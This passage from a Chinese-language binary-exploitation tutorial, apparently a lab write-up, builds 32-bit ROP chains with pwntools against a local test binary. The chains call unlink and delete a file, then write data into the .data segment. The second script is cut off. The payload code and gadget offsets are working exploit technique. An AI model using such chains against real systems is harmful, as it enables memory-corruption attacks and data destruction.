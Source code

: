 ```python
    int_addr,
    0xffffffff, # padding

    # libc_addr + pop_eax,
    libc_addr + xor_eax,
    libc_addr + inc_eax,
    libc_addr + pop_ebx,
    0x11111111, # error_code，可以任意填
    int_addr,
    0xffffffff, # padding
]

payload = b'a' * offset
for value in stack_values:
    payload += p32(value)
payload += b'data'

with open('payload','wb') as f:
    f.write(payload)
```
接着我们执行程序，注意到这次 ebx 复制成功，int 0x80 中断恰好正要触发 unlink 调用。
![image.png](https://cdn.nlark.com/yuque/0/2024/png/43291115/1719063274494-209f9ba7-1b02-4ec3-addb-634553c182b8.png#averageHue=%23456f8d&clientId=uf1920686-3db5-4&from=paste&height=730&id=u89113aff&originHeight=1095&originWidth=1559&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=895432&status=done&style=none&taskId=u6db3b53d-a454-4f5e-b73a-91e182dc0e8&title=&width=1039.3333333333333)
让程序继续执行，我们发现路径下的 data 真的被删除了，而且进程正常结束，没有出现异常，证明我们的攻击是成功的。
![image.png](https://cdn.nlark.com/yuque/0/2024/png/43291115/1719063699868-33b94a6d-a165-4379-bf94-04e4ef29ef43.png#averageHue=%23627952&clientId=uf1920686-3db5-4&from=paste&height=709&id=u2ead1460&originHeight=1063&originWidth=1655&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=850357&status=done&style=none&taskId=u98ebe1e8-71aa-4408-a818-5b8fdab0320&title=&width=1103.3333333333333)
### data 字符串写入——数据段
这一小节，我们尝试将 data 字符串写入数据段实现和 ROP。
首先，我们通过一条指令分析程序数据段的位置：
`realelf32 -S rop_test`
![image.png](https://cdn.nlark.com/yuque/0/2024/png/43291115/1719064610693-afcd6fd6-fa46-45a7-900d-f6941c6f007a.png#averageHue=%237f828c&clientId=uf1920686-3db5-4&from=paste&height=90&id=udb7243f0&originHeight=135&originWidth=1212&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=174820&status=done&style=none&taskId=ua6174768-af22-4f63-97a2-e72fff10eef&title=&width=808)
可以看到 .data 也就是数据段了，起始地址为 0x804a030，属性为 WA，表示可写。
进行字符串写入通常使用 edx 寄存器记录数据段首地址，我们需要寻找相关 gadget。
![image.png](https://cdn.nlark.com/yuque/0/2024/png/43291115/1719064888862-20ac1997-5d18-49b6-ad76-4d84df96754e.png#averageHue=%237c7e87&clientId=uf1920686-3db5-4&from=paste&height=116&id=u6fe1c5c9&originHeight=174&originWidth=1687&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=219812&status=done&style=none&taskId=ua2167b7a-0bbd-446a-837d-47c3c38ef1e&title=&width=1124.6666666666667)
`pop edx; ret;`偏移为 0x00037375。
![image.png](https://cdn.nlark.com/yuque/0/2024/png/43291115/1719065161379-b05ebe3d-b838-4d92-9e53-d2f91a9f40cc.png#averageHue=%2383848d&clientId=uf1920686-3db5-4&from=paste&height=46&id=u35643d92&originHeight=69&originWidth=870&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=48633&status=done&style=none&taskId=uc08c87df-1d98-41d6-8e5e-4307fad3d98&title=&width=580)
`mov dword ptr [edx], eax; ret;`，偏移为 0x00080b62。
构造以下 exploit：
```python
from pwn import *
import struct 
buf_addr = 0xffffbbbc
ebp_addr = 0xffffbc28

libc_addr = 0xf7c00000

pop_eax = 0x0002ed92
pop_ebx = 0x0002c01f
xor_eax = 0x00034ec0
inc_eax = 0x0002f7b5

int_addr = 0x08048623 # int 0x80; pop eax; ret;

offset = ebp_addr - buf_addr + 0x4
data_addr = buf_addr + offset + 0x54

dataSeg = 0x804a030
pop_edx = 0x00037375
mov_edx_eax = 0x00080b62

stack_values = [
```